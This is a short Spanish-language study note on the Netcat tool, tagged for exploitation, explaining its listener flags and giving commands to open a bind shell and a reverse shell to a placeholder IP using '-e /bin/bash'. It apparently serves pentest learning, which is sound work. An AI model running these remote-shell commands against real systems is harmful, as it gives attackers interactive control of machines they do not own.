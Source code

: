 # NetCat

***

* Tags: #herramientas #bash #exploiting

***

## Definición

> **Netcat** es una herramienta de red que permite a través de intérprete de comandos y con una sintaxis sencilla abrir puertos TCP/UDP en un HOST, asociar una \[\[Shell]] a un puerto en concreto y forzar conexiones UDP/TCP.

Para más información, puedes consultar [Wikipedia](https://es.wikipedia.org/wiki/Netcat)

***

## Uso

Para ponernos en escucha por un determinado puerto, podemos ejecutar el siguiente comando en bash:

```bash
nc -lnvp <puerto>
```

Donde cada parámetro significa lo siguiente:

* `-l`: Indica que abre el puerto para escucha (listen), solo acepta una **única** conexión de un cliente y se cierra
* `-n`: Indica que no se desea aplicar resolución DNS
* `-v`: Muestra información de la conexión (verbose)
* `-p`: Indica el puerto que desea ser abierto

Para ponernos en escucha por un determinado puerto, pero ofreciendo algún comando, con la posibilidad de intentar una \[\[Bind shell]],podríamos ejecutar lo siguiente:

```bash
nc -lnvp <puerto> -e <comando>
nc -lnvp <puerto> -e /bin/bash         #Útil si queremos establecer una bind shell
```

Donde el parámetro signfica lo siguiente:

* `-e`: Indica un comando específico a ejecutar después de haber establecido una conexión

Para ejecutar un comando en una máquina con **netcat** ejecutándose, es decir, con un puerto abierto, con posibilidad de intentar una \[\[Reverse shell]], podemos hacer uso del siguiente comando en bash:

```bash
nc -e <comando> <IP> <puerto>
nc -e /bin/bash <IP> <puerto>          #Útil si queremos establecer una reverse shell
```
